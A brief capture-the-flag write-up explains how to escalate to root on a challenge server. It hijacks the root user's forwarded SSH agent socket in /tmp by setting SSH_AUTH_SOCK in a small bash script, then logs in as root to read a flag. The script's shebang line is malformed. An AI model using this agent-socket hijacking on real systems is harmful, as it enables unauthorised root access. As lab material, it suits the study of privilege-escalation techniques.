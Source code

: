 Once your are in the challenge, login via SSH to the server (username: admin, password: admin).
Every minute, the root user comes and taunt you. It creates a folder in /tmp where we can get his socket. The problem is that this folder is quickly deleted. So we are going to create a script that gets its socket, and log in as root.

```
#!/bin/bash/expect -f

cd /tmp/ssh-*
export SSH_AUTH_SOCK=$PWD/$(ls)
ssh-add -l #Lists fingerprints of all identities currently represented by the
    agent.
ssh root@localhost
whoami
```

When the root use send a message, quickly type
```
source script.sh
```

Then login as root, aim to /root, and cat .flag !
